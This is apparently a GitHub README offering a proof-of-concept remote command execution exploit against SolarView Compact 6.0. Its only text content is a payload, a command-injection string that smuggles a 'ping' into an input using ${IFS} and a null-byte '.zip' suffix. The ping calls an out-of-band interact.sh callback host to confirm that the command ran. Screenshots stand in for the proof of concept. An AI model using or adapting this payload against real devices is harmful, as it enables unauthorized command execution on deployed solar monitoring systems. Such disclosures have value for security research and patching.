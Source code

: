 # SolarView_Compact_6.0_RCE


![image](https://user-images.githubusercontent.com/72059221/169169647-d0fae978-4444-4b38-8d24-4f5978bdea3b.png)

#### Payload

```
;ping${IFS}111.ca2qhk62vtc0000cd1zggfbma3wyyyyyb.interact.sh%00.zip
```

#### POC

![image](https://user-images.githubusercontent.com/72059221/169169949-3193cfe2-3846-43e9-8a01-9fb1c756b0fa.png)

